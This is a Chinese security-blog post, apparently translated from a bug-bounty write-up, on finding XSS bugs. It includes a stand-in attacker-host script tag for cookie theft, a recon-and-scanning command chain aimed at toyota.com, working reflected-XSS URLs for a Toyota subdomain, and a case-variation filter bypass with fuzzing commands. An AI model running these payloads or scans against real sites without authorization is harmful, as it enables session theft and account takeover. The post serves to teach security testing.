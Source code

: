 #  让XSS漏洞无处遁形！0x1   
 迪哥讲事   2024-08-21 20:53  
  
forever young  
  
  
  
不论昨天如何，都希望新的一天里，我们大家都能成为更好的人，也希望我们都是走向幸福的那些人  
  
  
  
01  
  
背景  
  
安全小白团  
  
  
今天我将讨论使用不同技术的多种跨站脚本(XSS) 攻击，这是我在参与各种漏洞赏金计划时发现的。  
  
  
XSS：（跨站脚本）是一种安全漏洞，当攻击者向其他用户查看的网页中注入恶意脚本时，这种漏洞就会发生。XSS 攻击旨在在受害者浏览器的上下文中执行恶意脚本，从而使攻击者能够窃取敏感信息。例如，在 javascript 中，如果攻击者能够注入像这样的内容：  
  
```
<script src=https://attacker_Server.com/attack.js></script> 
// 从攻击者服务器加载恶意 Java 脚本文件，该文件执行恶意操作，例如从受害者那里窃取敏感数据（如会话 cookie）和获取帐户接管。
```  
```
```  
  
  
  
02  
  
XSS类型  
  
安全小白团  
  
  
**1. 反射型XSS**  
  
  
是最简单的一种XSS。当应用程序在HTTP请求中接收数据，并以不安全的方式将该数据包含在响应中时，就会发生这种情况。例如：如果我们在网站中有一个用于过滤衣服的类别参数，比如“https://example.com?category=t-shirt”，并且这个值以不安全的方式被回显在响应中，如<p>t-shirt</p>，这意味着我们可以注入我们的恶意负载，如<p><script>alert(document.cookie)</script></p>，以获取会话cookie。  
  
  
**2. DOM XSS**  
  
  
当JavaScript从攻击者可控的来源（如URL）获取数据，并将其传递给支持动态代码执行的接收器（如eval()或innerHTML）时，会发生DOM型XSS。这使得攻击者能够执行恶意JavaScript。关于DOM，你需要深入了解的最重要的内容是它的来源和接收器。关于来源和接收器的更多信息，请查看  
  
```
https://portswigger.net/web-security/cross-site-scripting/dom-based
```  
  
**3. 存储型 XSS**  
  
  
当应用程序从不受信任的来源接收数据，并以不安全的方式将其包含在后续的HTTP响应中时，就会发生存储型XSS。例如，假设一个网站允许用户提交对其他用户显示的博客文章的评论。攻击者提交恶意评论，这些评论将被存储在服务器上，当其他用户查看这些恶意评论时，攻击者将窃取他们的数据。  
  
  
  
  
03  
  
丰田中的严重DOM XSS  
  
安全小白团  
  
  
现在，我们有一个丰田的域名，我们需要收集该域名的子域。您可以使用像sublist3r 、subfinder、 asset finder、amass 等工具来收集子域名，然后使用httpx来过滤出活跃的子域名。  
  
```
httpx -l subdomains.txt -o httpx.txt
```  
  
  
接下来，我们从Wayback Machine和Common Crawl中收集URL。  
  
  
```
echo "toyota.com" | gau --threads 5 >> Enpoints.txt
cat httpx.txt | katana -jc >> Enpoints.txt
```  
  
  
由于其中大部分可能是重复的，我们将使用以下命令来去除重复项：  
  
```
cat Enpoints.txt | uro >> Endpoints_F.txt
```  
  
```
gau：一个工具，可以从Wayback Machine中获取任何域名的已知URL。
https://github.com/lc/gau
katana：一个专注于深度网络爬虫的强大工具。
https://github.com/projectdiscovery/katana
uro：一个很好的工具，用于从收集到的端点中过滤掉不相关/重复的内容。例如，如果我们有多个URL，如https://example.com?id=1和https://example.com?id=2，uro会将其过滤为仅一个URL。
https://github.com/s0md3v/uro
```  
  
注意：  
你可以使用自动化脚本来自动化执行之前提到的所有步骤，就像大  
多数安全研究人员所做的那样，以简化流程。在将来的文章中，我将分享我的脚本。  
  
  
现在，我们有了大量的URL，需要筛选出有效的URL。我使用的是强大的gf工具，它可以根据提供的模式（例如XSS、SQLi、SSRF等模式的）来过滤URL。您可以使用 GitHub 中的任何公共模式，例如  
  
  
```
https://github.com/tomnomnom/gf
https://github.com/1ndianl33t/Gf-Patterns
```  
  
  
并将它们添加到“~/.gf”目录中。  
  
```
cat Endpoints_F.txt | gf xss >> XSS.txt
用于获取可能容易受到XSS攻击的带有参数的URL。
```  
  
  
接下来，我们将使用Gxss工具来查找那些值在响应中被反射的参数。  
  
```
https://github.com/KathanP19/Gxss
cat XSS.txt | Gxss -p khXSS -o XSS_Ref.txt
```  
  
  
在这个过程中，你有两个选择：  
第一个是手动测试，或者使用XSS自动化工具并手动确认结果。  
由于我们的文件很大，因此我会使用Dalfox自动化XSS扫描器。  
  
  
```
https://github.com/hahwul/dalfox
dalfox file XSS_Ref.txt -o Vulnerable_XSS.txt
```  
  
我发现有一个存在漏洞的子域名，我们称之为sub.toyota.com，让我们看看发生了什么。  
  
  
当我导航到漏洞URL  
时，我收到了一个弹窗消息。  
```
https://sub.toyota.com/direcrory/?dir=</script><script>confirm(document.domain)</script>
```  
  
  
  
  
当时，  
我很好奇这是否是唯一的漏洞参数，还是存在其他参数，以及为什么会发生这种情况。  
我发现了很多存在漏洞的参数。  
  
  
我查看了响应，发现存在漏洞的参数在URL的源文件中存在于不同的JavaScript变量中，如“var returnUrl=”、“var applicationUri=”。你可以查看这段JavaScript代码来理解这个思路。  
  
```
```  
```
<script>
  // Assuming the URL is http://test.com?param=test
  var urlParams = new URLSearchParams(window.location.search);
  var paramValue = urlParams.get('param');
  
  // This will execute the script tag in the paramValue variable
  document.write(paramValue)
</script>
```  
```
```  
```
https://sub.toyota.com/direcrory/?dir=</script><script>confirm(document.cookie)</script>
```  
  
  
  
  
不幸的是，这意味着我可以对任何用户执行完整的账户接管（RXSS）。我已经详细报告了这个漏洞，并得到了确认。  
  
  
  
  
  
  
04  
  
背景漏洞赏金计划中的中等难度反射性XSS  
  
安全小白团  
  
  
关键字：隐藏参数——手动测试  
  
  
反射型 XSS是最常见的漏洞之一，也相对容易发现，但我要谈谈我多次遇到的一些特殊情况。  
  
  
在对targets.com进行侦察并收集所有相关信息后，我收集了各个URL。我发现了一个非常有趣的URL，  
给我展示了以下页  
面。  
  
```
https://tst2.dev.targets.com/cgi-bin/fr.cfg/php/custom/id-pass.php
```  
  
  
  
当我导航到基础URL时，我收到了一个403 Forbidden（禁止访问）的错误。  
  
  
  
  
我使用自定义的单词列表和dirsearch工具对基础URL和其他URL进行了模糊测试。  
  
```
```  
```
dirsearch -u https://tst2.dev.targets.com/ -w wordlist.txt -e php,cgi,htm,html,shtm,shtml,js,txt --random-agent

(-u) 用于指定目标网址；
(-w) 用于指定自定义的单词列表；
(-e) 用于指定要测试的不同文件扩展名；
(--random-agent) 用于改变请求的用户代理。
```  
```
```  
  
  
但是，我并没有得到任何重要的结果。那么，关于隐藏参数我们该怎么做呢？让我们使用 Arjun 工具或 Param Miner 扩展来扫描，这些工具可以通过发送不同的请求（如 GET、POST、JSON、XML）来发现有效的查询参数。  
  
```
```  
```
https://github.com/s0md3v/Arjun
https://portswigger.net/bappstore/17d2949a985c4b7ca092728dba871943

arjun -u https://tst2.dev.targets.com/cgi-bin/fr.cfg/php/custom/id-pass.php -m GET -wParameters_Fuzz.txt

(-u) 用于指定目标网址；
(-m GET) 表示使用 GET 方法发送请求；
(-w) 用于指定自定义的单词列表。
```  
```
```  
  
响应  
  
  
  
  
接下来，让我们针对 auth_status 参数尝试不同的注入，如 XSS、SQLi 等。但为了不浪费时间，我将专注于反射型 XSS。  
  
  
在参数值中注入 khxss 后，当我导航到  
  
```
https://tst2.dev.targets.com/cgi-bin/fr.cfg/php/custom/id-pass.php?auth_status=%3Cscript%3Econfirm%285%29%3C%2Fscript%3E
```  
  
   
时，它确实在响应中反射了，但我得到了 403 Forbidden 错误。  
  
  
通常，绕过某些保护的第一种也是最简单的方法是尝试修改负载，比如改变编写负载的方式（如 <sCrIpT>alert(1)</ScRipt>）或使用 <scr<script>ipt> 等多种技巧。因为开发者在黑名单中可能只禁止了特定的词汇。你可以使用公共的单词列表来自动化这一过程。但当我尝试  
  
```
https://tst2.dev.targets.com/cgi-bin/fr.cfg/php/custom/id-pass.php?auth_status=%3CsCriPt%3Econfirm%28documen.cookie%29%3C%2FScRipt%3E
```  
  
   
时，它接受了，我们成功触发了 XSS。  
  
  
  
  
专业提醒：当你发现类似这样的漏洞时，请尝试看看子域名是否也易受同样的漏洞影响。这就是我在收集[*.dev.targets.com]的子域名时所做的事情，我发现了大约四个易受攻击的子域名。但当我报告它们时，审查团队认为它们属于同一个漏洞，最终我获得了赏金。  
  
  
  
  
注意：你可以使用ffuf工具对子域名进行模糊测试，只需使用完整的URL即可。  
  
```
https://github.com/ffuf/ffuf
ffuf -u "https://FUZZ.dev.targets.com/cgi-bin/fr.cfg/php/custom/id-pass.php?auth_status=%3CsCriPt%3Econfirm%28documen.cookie%29%3C%2FScRipt %3E" -w 子域名.txt -c -v
```  
```
```  
  
  
## 技术交流  
  
技术交流请加笔者微信:richardo1o1 (暗号:growing)  
  
如果你是一个长期主义者，欢迎加入我的知识星球，我们一起往前走，每日都会更新，精细化运营，微信识别二维码付费即可加入，如不满意，72 小时内可在 App 内无条件自助退款  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj5jYW8icFkojHqg2WTWTjAnvcuF7qGrj3JLz1VgSFDDMOx0DbKjsia5ibMpeISsibYJ0ib1d2glMk2hySA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
## 往期回顾  
  
  
[](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247486912&idx=1&sn=8704ce12dedf32923c6af49f1b139470&chksm=e8a607a3dfd18eb5abc302a40da024dbd6ada779267e31c20a0fe7bbc75a5947f19ba43db9c7&scene=21#wechat_redirect)  
  
[dom-xss精选文章](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247488819&idx=1&sn=5141f88f3e70b9c97e63a4b68689bf6e&chksm=e8a61f50dfd1964692f93412f122087ac160b743b4532ee0c1e42a83039de62825ebbd066a1e&scene=21#wechat_redirect)  
  
  
[年度精选文章](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487187&idx=1&sn=622438ee6492e4c639ebd8500384ab2f&chksm=e8a604b0dfd18da6c459b4705abd520cc2259a607dd9306915d845c1965224cc117207fc6236&scene=21#wechat_redirect)  
[](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487187&idx=1&sn=622438ee6492e4c639ebd8500384ab2f&chksm=e8a604b0dfd18da6c459b4705abd520cc2259a607dd9306915d845c1965224cc117207fc6236&scene=21#wechat_redirect)  
  
  
[Nuclei权威指南-如何躺赚](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487122&idx=1&sn=32459310408d126aa43240673b8b0846&chksm=e8a604f1dfd18de737769dd512ad4063a3da328117b8a98c4ca9bc5b48af4dcfa397c667f4e3&scene=21#wechat_redirect)  
  
  
[漏洞赏金猎人系列-如何测试设置功能IV](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247486973&idx=1&sn=6ec419db11ff93d30aa2fbc04d8dbab6&chksm=e8a6079edfd18e88f6236e237837ee0d1101489d52f2abb28532162e2937ec4612f1be52a88f&scene=21#wechat_redirect)  
  
  
[漏洞赏金猎人系列-如何测试注册功能以及相关Tips](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247486764&idx=1&sn=9f78d4c937675d76fb94de20effdeb78&chksm=e8a6074fdfd18e59126990bc3fcae300cdac492b374ad3962926092aa0074c3ee0945a31aa8a&scene=21#wechat_redirect)  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
参考及来源：  
  
https://infosecwriteups.com/how-i-found-multiple-xss-vulnerabilities-using-unknown-techniques-74f8e705ea0d  
  
  
  
05  
  
免责&版权声明  
  
安全小白团  
  
  
  
安全小白团是帮助用户了解信息安全技术、安全漏洞相关信息的微信公众号。安全小白团提供的程序(方法)可能带有攻击性，仅供安全研究与教学之用，用户将其信息做其他用途，由用户承担全部法律及连带责任，安全小白团不承担任何法律及连带责任。  
欢迎大家转载，  
转载请注明出处。  
如有侵权烦请告知，我们会立即删除并致歉。谢谢！  
  
  
  
